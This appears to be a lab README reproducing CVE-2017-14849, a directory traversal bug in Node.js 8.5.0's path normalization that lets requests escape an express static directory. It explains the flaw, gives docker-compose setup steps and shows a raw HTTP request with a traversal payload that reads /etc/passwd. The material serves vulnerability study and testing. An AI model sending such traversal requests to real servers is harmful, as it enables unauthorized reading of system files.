

# Node.js Directory Traversal Vulnerability (CVE-2017-14849)

## Vulnerability Principle

Reference documentation:

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

The reason is that when Node.js 8.5.0 performs a `normalize` operation on the directory, a logic error occurs, causing the upper layer to jump (eg `../../../../../../etc/ Passwd`), add `foo/../` (such as `../../../foo/../../../../etc/passwd`) in the middle position, you can make `normalize` returns `/etc/passwd`, but the correct result should be `../../../../../../etc/passwd`.

Web frameworks such as express usually provide the functionality of a static file server, which relies on the `normalize` function. For example, express uses the `normalize` function when determining whether the path is outside the scope of the static directory. The above BUG causes the `normalize` function to return an error result, which bypasses the check and causes arbitrary file read vulnerabilities.

Of course, the 'normalize` BUG can affect only the express, and it needs to be further explored. However, because this bug was introduced in node 8.5.0, it was fixed in 8.6, so the scope of influence is limited.

## Vulnerability recurrence

Compile and run the environment:

```
Docker-compose build
Docker-compose up -d
```

Visit `http://your-ip:3000/` to see a web page with the file `/static/main.js` referenced, indicating that it has a static file server.

Send the following packet to read passwd:

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

